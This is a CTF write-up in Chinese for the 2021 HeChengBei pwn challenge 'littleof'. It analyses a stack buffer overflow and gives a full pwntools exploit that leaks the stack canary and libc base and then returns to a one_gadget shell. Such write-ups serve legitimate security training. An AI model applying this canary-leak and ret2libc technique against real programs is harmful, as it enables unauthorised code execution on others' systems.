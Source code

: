 # HeChengBei 2021 littleof

> 2021 “鹤城杯”河南·鹤壁CTF网络安全挑战赛 初赛 pwn
>
> challenge name: littleof
>
> file: littleof, libc-2.27.so
>
> ld227-3ubuntu1.so and .i64 with comments provided  可以不用看了，程序不长
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish

程序存在明显栈溢出，移除长度很长，一次littleof的执行可以溢出两次，其中第一次溢出之后会输出一次，需要解决的主要问题就是泄露canary，libc基址(anti-ASLR)，没有开启PIE，可以直接rop到littleof再rop一次

主要过程：

1. littleof第一次执行：覆盖到刚好到canary，printf的时候就会输出canary值。第二次read就用泄露的canary覆盖，return addr填littleof的地址。后面再执行时canary不会改变，程序也没开启PIE
2. littleof第二次执行：第一次read时覆盖满buf，泄露stdin上的首地址，这个地址在libc上，与vmmap输出的libc基址偏移量不变，故可以计算出libc基址。第二次read时就覆盖canary，return addr填onegadget

# IDA Analysis

基本上什么都没做，就到主要逻辑：

```cpp
unsigned __int64 littleof()
{
  char buf[8]; // [rsp+10h] [rbp-50h] BYREF
  FILE *v2; // [rsp+18h] [rbp-48h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = stdin; // 注意这里存了stdin 可以用于泄露libc基址
  puts("Do you know how to do buffer overflow?");
  read(0, buf, 0x100uLL);
  printf("%s. Try harder!", buf);
  read(0, buf, 0x100uLL);
  puts("I hope you win");
  return __readfsqword(0x28u) ^ v3;
}
```

# Onegadget

```bash
one_gadget libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)  # 解题时随便选的选了这个
constraints:
  [rsp+0x70] == NULL
```





# Exploit

```bash
from pwn import *

context.log_level = 'debug'
libc = ELF('./libc-2.27.so')
sh = process(["./ld227-3ubuntu1.so", "./littleof"], env={"LD_PRELOAD": "./libc-2.27.so"})
# sh = remote("182.116.62.85", 27056)
# === Step-1: leak canary
payload = b"deafbeef".ljust(0x48, b'a')
sh.sendlineafter("overflow?", payload)
data = sh.recvuntil(payload)
data = sh.recv()
canary = u64(data[:8]) - 0xa  # 注意这里的 - 0xa
rbp = u64(data[8:16])  # 实际上这里的rbp并不影响
print("canary==>", hex(canary))
payload = b"deafbeef".ljust(0x48, b'a') + p64(canary) + p64(rbp) + p64(0x00000000004006E3)

sh.sendline(payload)

# === Step-2: leak libc base addr, return to one_gadget
payload = b"xxxxxxxx"
sh.sendlineafter("overflow?", payload)
data = sh.recvuntil(payload)
data = sh.recv()
addr_leak = u64(data[:6].ljust(8, b'\0'))
print("data:", data, len(data))
print("addr_leak: ", type(addr_leak), hex(addr_leak))

libc.address = addr_leak - libc.sym['_IO_2_1_stdin_'] - 0xa
print("===>", hex(libc.address))
# one_gadget
payload = b"deafbeef".ljust(0x48, b'a') + p64(canary) + p64(rbp) + p64(libc.address + 0x10a41c)
sh.sendline(payload)
# gdb.attach(sh)  # gdb
sh.interactive()

```

